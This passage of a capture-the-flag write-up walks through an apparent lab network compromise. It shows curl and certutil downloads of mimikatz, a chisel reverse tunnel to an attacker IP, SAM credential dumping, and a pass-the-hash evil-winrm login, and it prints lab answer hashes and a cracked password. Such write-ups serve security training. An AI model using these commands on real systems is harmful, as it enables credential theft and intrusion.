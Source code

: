 Now, on the .200 machine:

```bash
$ curl http://$ATTZACKER_IP:80/mimikatz.exe -o mimikatz-unknown.exe

$ python3 -m http.server 15183
```

And finally, in EvilWinRM shell:

```ps
> cd ../Downloads

> certutil.exe -urlcache -f http://10.200.90.200:15183/mimikatz-unknown.exe mimikatz-unknown.exe
```

Setup RDP tunnel as well - on the .200 machine run:

```bash
$ ./chisel-unknown client $ATTACKER_IP:8000 R:3389:10.200.90.150:3389 &
```

Connect to rdp from an attacker machine (It's so fucking slow...):

```bash
$ xfreerdp /v:localhost /u:unknown /p:unknown
```

Once you're connected, run cmd as administrator. Navigate to your Downloads folder
and launch mimikatz

- What is the Administrator password hash?

In mimikatz, use these commands:

```cmd
mimikatz # privilege::debug
# Supposed to return "Privilege '20' OK"

mimikatz # token::elevate

mimikatz # lsadump::sam
```

> 37db630168e5f82aafa8461e05c6bbd1

- What is the NTLM password hash for the user "Thomas"?

> 02d90eda8f6b6b06c32d5f207831101f

- What is Thomas' password?

Navigate to [Crackstation](https://crackstation.net/) and lookup the hash

> i<3ruby

Gain evil-winrm shell as Administrator:

```bash
$ evil-winrm -u Administrator -H 37db630168e5f82aafa8461e05c6bbd1 -i localhost
```

---